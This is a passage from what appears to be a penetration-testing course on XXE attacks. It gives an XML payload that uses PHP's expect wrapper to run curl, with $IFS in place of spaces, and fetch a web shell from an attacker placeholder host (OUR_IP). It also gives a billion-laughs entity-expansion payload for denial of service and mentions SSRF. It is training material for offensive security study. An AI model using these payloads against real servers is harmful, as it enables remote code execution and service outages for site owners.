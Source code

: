 Now, we can use the following XML code to execute a`curl` command that downloads our web shell into the remote server:


```xml
<?xml version="1.0"?>
<!DOCTYPE email [
 <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

**Note:** We replaced all spaces in the above XML code with`$IFS`, to avoid breaking the XML syntax. Furthermore, many other characters like`|`,`>`, and`{` may break the code, so we should avoid using them.

Once we send the request, we should receive a request on our machine for the`shell.php` file, after which we can interact with the web shell on the remote server for code execution.

**Note:** The expect module is not enabled/installed by default on modern PHP servers, so this attack may not always work. This is why XXE is usually used to disclose sensitive local files and source code, which may reveal additional vulnerabilities or ways to gain code execution.

## Other XXE Attacks

Another common attack often carried out through XXE vulnerabilities is SSRF exploitation, which is used to enumerate locally open ports and access their pages, among other restricted web pages, through the XXE vulnerability. The [Server-Side Attacks](https://academy.hackthebox.com/course/preview/server-side-attacks) module thoroughly covers SSRF, and the same techniques can be carried with XXE attacks.

Finally, one common use of XXE attacks is causing a Denial of Service (DOS) to the hosting web server, with the use the following payload:


```xml
<?xml version="1.0"?>
<!DOCTYPE email [
 <!ENTITY a0 "DOS" >
 <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
 <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
 <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
 <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
 <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
 <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
 <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
 <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
 <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;"> 
 <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;"> 
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```

